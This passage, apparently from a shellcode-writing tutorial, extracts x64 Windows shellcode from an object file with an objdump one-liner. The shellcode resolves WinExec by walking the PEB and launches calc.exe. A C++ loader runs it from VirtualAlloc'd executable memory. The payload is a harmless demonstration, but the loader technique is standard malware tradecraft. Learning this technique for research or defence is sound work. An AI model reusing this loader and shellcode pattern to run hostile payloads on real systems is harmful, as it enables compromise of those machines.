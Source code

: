 - for i in $(objdump -D winexec.o \| grep "^ " \| cut -f2); do echo -n "\x$i" ; done

**here's what it looks like with just the machine code extracted:**

> "\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41\x60\x48\x8b"
"\x40\x18\x48\x8b\x70\x10\x48\x8b\x36\x48\x8b\x36\x48\x8b\x5e\x30\x49\x89"
"\xd8\x8b\x5b\x3c\x4c\x01\xc3\x8b\x93\x88\x00\x00\x00\x4c\x01\xc2\x44\x8b"
"\x52\x14\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4c\x89\xd1\x48\xb8\x57"
"\x69\x6e\x45\x78\x65\x63\x00\x50\x48\x89\xe0\x48\x83\xc4\x08\xeb\x00\x67"
"\xe3\x19\x31\xdb\x41\x8b\x1c\x8b\x4c\x01\xc3\x48\xff\xc9\x4c\x8b\x08\x4c"
"\x39\x0b\x74\x02\x75\xe7\x51\xeb\x01\xcc\x41\x5f\x78\x00\x4c\x89\xf9\x4d"
"\x31\xdb\x44\x8b\x5a\x24\x4d\x01\xc3\x48\xff\xc1\x66\x45\x8b\x2c\x4b\x4d"
"\x31\xdb\x44\x8b\x5a\x1c\x4d\x01\xc3\x43\x8b\x04\xab\x4c\x01\xc0\x50\x78"
"\x00\x41\x5f\xb8\x00\x00\x00\x00\x50\x48\xb8\x63\x61\x6c\x63\x2e\x65\x78"
"\x65\x50\x48\x89\xe1\xba\x01\x00\x00\x00\x48\x83\xec\x30\x41\xff\xd7";

Now, the final piece to all of this.  Let's add the x64 shellcode to a custom C++ program and execute it!

```c++
#include <windows.h>
#include <iostream>

unsigned char shellcode[] =
"\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41\x60"
"\x48\x8b\x40\x18\x48\x8b\x70\x10\x48\x8b\x36\x48\x8b\x36\x48\x8b"
"\x5e\x30\x49\x89\xd8\x8b\x5b\x3c\x4c\x01\xc3\x8b\x93\x88\x00\x00"
"\x00\x4c\x01\xc2\x44\x8b\x52\x14\x4d\x31\xdb\x44\x8b\x5a\x20\x4d"
"\x01\xc3\x4c\x89\xd1\x48\xb8\x57\x69\x6e\x45\x78\x65\x63\x00\x50"
"\x48\x89\xe0\x48\x83\xc4\x08\xeb\x00\x67\xe3\x19\x31\xdb\x41\x8b"
"\x1c\x8b\x4c\x01\xc3\x48\xff\xc9\x4c\x8b\x08\x4c\x39\x0b\x74\x02"
"\x75\xe7\x51\xeb\x01\xcc\x41\x5f\x78\x00\x4c\x89\xf9\x4d\x31\xdb"
"\x44\x8b\x5a\x24\x4d\x01\xc3\x48\xff\xc1\x66\x45\x8b\x2c\x4b\x4d"
"\x31\xdb\x44\x8b\x5a\x1c\x4d\x01\xc3\x43\x8b\x04\xab\x4c\x01\xc0"
"\x50\x78\x00\x41\x5f\xb8\x00\x00\x00\x00\x50\x48\xb8\x63\x61\x6c"
"\x63\x2e\x65\x78\x65\x50\x48\x89\xe1\xba\x01\x00\x00\x00\x48\x83"
"\xec\x30\x41\xff\xd7";

int main() {
    
    void* exec_mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (exec_mem == nullptr) {
        std::cerr << "Memory allocation failed\n";
        return -1;
    }
    memcpy(exec_mem, shellcode, sizeof(shellcode));
    auto shellcode_func = reinterpret_cast<void(*)()>(exec_mem);
    shellcode_func();
    VirtualFree(exec_mem, 0, MEM_RELEASE);
    return 0;
}
```
